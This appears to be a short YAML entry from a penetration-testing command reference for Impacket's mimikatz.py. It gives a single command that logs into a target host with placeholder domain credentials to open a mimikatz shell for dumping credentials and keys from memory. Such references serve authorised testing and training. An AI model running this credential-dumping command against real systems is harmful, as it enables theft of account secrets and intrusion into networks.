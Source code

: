 ```yaml
---
description: |
  Impacket's mimikatz.py will drop you into a mimikatz shell on the target machine, allowing you to perform any mimikatz-related actions, such as dumping credentials from memory, dumping keys, etc. 

  Command Reference:

  	Target IP: 10.10.10.1
  
  	Domain: test.local

  	Username: john

  	Password: password123

functions:
  Password:
    - code: |
        python3 mimikatz.py test.local/john:password123@10.10.10.1
  Username:
    - code: |
        empty
  Kerberos:
    - code: |
        empty
---
```

